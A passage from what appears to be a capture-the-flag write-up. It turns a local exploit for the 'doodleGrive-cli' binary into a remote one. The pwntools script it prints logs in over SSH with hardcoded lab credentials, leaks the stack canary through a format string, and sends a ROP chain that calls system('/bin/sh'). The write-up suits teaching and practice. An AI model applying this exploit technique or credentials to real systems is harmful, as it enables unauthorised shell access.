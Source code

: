 ### Local Exploit Result

The exploit worked and returned an interactive shell as my own user. The next step will require modifying the script to make it work remotely on the target machine.

![6d144b46b3b09ba3445033e8fb792b21.png](/assets/img/6d144b46b3b09ba3445033e8fb792b21.png)

# Remote Exploit

In order to get the script to work remotely `pwntools` has the ability to connect via SSH and then exploit the binary. The below script was used to achieve this task.

```python
from pwn import *

e = ELF("./doodleGrive-cli")
#io = e.process(level="error")

sshCon = ssh(host="10.10.11.235", user="tom", password="johnmayer7")

io = sshCon.process("./doodleGrive-cli")

system = p64(e.sym.system)
binsh = p64(0x00497cd5)
pop_rdi_ret = p64(0x401912)
ret = p64(0x401941)

log.info_once(f"Setting /bin/sh string: {binsh.hex()}")
log.info_once(f"Setting system address: {system.hex()}")
log.info_once(f"Setting gadget address: {pop_rdi_ret.hex()}")
log.info_once(f"Setting return address: {ret.hex()}")

io.recvline()
io.recvline()
io.sendline(b"%15$lx") # 15 index discovered using python script
returnedoutput = io.recvline()[19:-2]

canary = int(returnedoutput, 16)
log.info_once(f"Setting canary address: {canary}")

payload = b"A"*56       # Offset to enter canary.
payload += p64(canary)  # Leak address of canary via format string attack
payload += b"C"*8       # Filler
payload += ret          # Return instruction to allign stack
payload += pop_rdi_ret  # Gadget to begin chain to system
payload += binsh
payload += system

io.sendline(payload)
```